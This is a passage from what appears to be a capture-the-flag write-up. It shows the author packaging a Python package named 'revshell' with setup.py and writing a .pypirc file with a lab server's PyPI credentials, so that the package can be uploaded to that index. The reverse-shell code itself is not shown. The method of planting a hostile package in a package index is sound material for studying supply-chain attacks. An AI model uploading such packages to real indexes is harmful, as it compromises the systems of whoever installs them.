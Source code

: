

### Package and Upload

#### Local Package

To create a package, I can go into the `revshell` directory that
contains `setup.py` and run it with the `sdist` command:



    root@kali# python setup.py sdist
    running sdist
    running egg_info
    writing revshell.egg-info/PKG-INFO
    writing top-level names to revshell.egg-info/top_level.txt
    writing dependency_links to revshell.egg-info/dependency_links.txt
    reading manifest file 'revshell.egg-info/SOURCES.txt'
    writing manifest file 'revshell.egg-info/SOURCES.txt'
    running check
    creating revshell-0.0.1
    creating revshell-0.0.1/revshell.egg-info
    copying files to revshell-0.0.1...
    copying README.md -> revshell-0.0.1
    copying setup.cfg -> revshell-0.0.1
    copying setup.py -> revshell-0.0.1
    copying revshell.egg-info/PKG-INFO -> revshell-0.0.1/revshell.egg-info
    copying revshell.egg-info/SOURCES.txt -> revshell-0.0.1/revshell.egg-info
    copying revshell.egg-info/dependency_links.txt -> revshell-0.0.1/revshell.egg-info
    copying revshell.egg-info/not-zip-safe -> revshell-0.0.1/revshell.egg-info
    copying revshell.egg-info/top_level.txt -> revshell-0.0.1/revshell.egg-info
    Writing revshell-0.0.1/setup.cfg
    Creating tar archive
    removing 'revshell-0.0.1' (and everything under it)



There's now an archive in the `dist` directory:



    root@kali# ls -l dist/
    total 4
    -rwxrwx--- 1 root vboxsf 943 Jul 13 07:10 revshell-0.0.1.tar.gz



#### Remote PyPI

To package for a remote PyPI, I'll create `~/.pypirc`, where I'll define
the server, including the authentication:



    [distutils]
    index-servers =
      sneaky
    [sneaky]
    repository: http://pypi.sneakycorp.htb:8080
    username: pypi
    password: soufianeelhaoui
